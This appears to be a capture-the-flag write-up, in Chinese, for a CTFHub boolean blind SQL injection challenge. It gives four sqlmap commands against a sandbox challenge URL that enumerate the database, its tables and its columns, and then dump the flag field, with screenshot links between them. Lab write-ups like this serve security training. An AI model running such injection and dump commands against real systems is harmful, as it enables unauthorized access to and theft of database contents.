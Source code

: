 

```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 --current-db --batch
//查询当前数据库名
```

![1686846074134](image/d.布尔盲注/1686846074134.png)

```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli --tables --batch
//查询sqli内所有的表
```

![1686846215221](image/d.布尔盲注/1686846215221.png)

```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag --columns --batch
//查询flag表内的字段
```

![1686846399935](image/d.布尔盲注/1686846399935.png)

```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag -C "flag" --dump --batch
//查询flag字段的内容
```

![1686846629268](image/d.布尔盲注/1686846629268.png)
